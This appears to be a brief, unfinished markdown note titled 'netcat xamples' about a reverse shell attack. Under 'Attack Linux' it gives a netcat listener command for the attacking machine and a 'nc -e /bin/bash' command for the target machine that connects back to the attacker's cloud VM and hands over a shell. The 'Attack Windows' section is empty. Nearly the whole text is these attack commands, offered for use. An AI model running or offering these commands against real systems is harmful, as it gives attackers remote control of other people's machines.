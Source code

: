# netcat xamples

> Reverce shell attack

## Attack Linux

### ATTACKING machine

`nc -lnvp 87 -s ip-address-of-your-cloud-vm`

### TARGET machine

```
nc -e /bin/bash ip-address-of-your-cloud-vm
OR
nc ip-address-of-your-cloud-vm
```

## Attack Windows

